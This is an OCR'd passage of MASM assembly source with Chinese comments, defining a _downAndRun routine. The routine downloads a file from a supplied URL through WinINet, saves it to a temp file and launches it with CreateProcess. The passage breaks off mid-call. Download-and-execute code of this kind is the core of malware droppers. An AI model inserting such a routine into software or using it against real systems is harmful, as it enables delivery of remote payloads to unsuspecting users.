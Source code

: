 ```assembly
;-----------------------
_downAndRun proc _lpURL  
  local @szFileName[256]:byte
  local @dwBuffer,@dwNumberOfBytesWritten,@dwBytesToWrite
  local @lpBuffer[200h]:byte
  local @hFile
  local @stStartupInfo:STARTUPINFO  
  local @stProcessInformation:PROCESS_INFORMATION  

  invoke GetTempFileName,addr szTempPath,NULL,\
                             0,addr @szFileName
  invoke InternetOpen,offset szAppName,\
                  INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0 
  .if eax!=NULL
    mov hInternet,eax

    ;设置联接超时值和接收超时值
    invoke InternetSetOption,hInternet,\
             INTERNET_OPTION_CONNECT_TIMEOUT,addr @dwBuffer,4
    invoke InternetSetOption,hInternet,\
             INTERNET_OPTION_CONTROL_RECEIVE_TIMEOUT,\
                                      addr @dwBuffer,4
    ;用当前参数打开URL
    invoke InternetOpenUrl,hInternet,_lpURL,NULL,NULL,\
                           INTERNET_FLAG_EXISTING_CONNECT,0
    .if eax!=NULL
      mov hInternetFile,eax
      mov @dwNumberOfBytesWritten,200h
      ;读HTTP文件头
      invoke HttpQueryInfo,hInternetFile,HTTP_QUERY_STATUS_CODE,\
                 addr @lpBuffer,addr @dwNumberOfBytesWritten,0

      .if eax!=NULL
         ;打开临时文件准备写
         invoke CreateFile,addr @szFileName,GENERIC_WRITE,\
                                         0,NULL,OPEN_ALWAYS,0,0
         .if eax != 0FFFFFFFFh
           mov @hFile,eax
           .while TRUE
             mov @dwBytesToWrite,0
             ;读网络文件数据
             invoke InternetReadFile,hInternetFile,addr @lpBuffer,\
                       200h,addr @dwBytesToWrite
             .break .if (!eax)
             .break .if (@dwBytesToWrite==0)
             ;写入文件
             invoke WriteFile,@hFile,addr @lpBuffer,
                   @dwBytesToWrite,addr @dwNumberOfBytesWritten,0
           .endw
           invoke SetEndOfFile,@hFile
           invoke CloseHandle,@hFile
         .endif
      .endif
      invoke InternetCloseHandle,hInternetFile
    .endif
    invoke InternetCloseHandle,hInternet
  .endif
 
  ;运行下载的文件
  invoke GetStartupInfo,addr @stStartupInfo
  invoke CreateProcess,NULL,addr @szFileName,NULL,NULL,FALSE,\
            NORMAL_PRIORITY_CLASS,NULL,NULL,\
            addr @stStartupInfo,\
```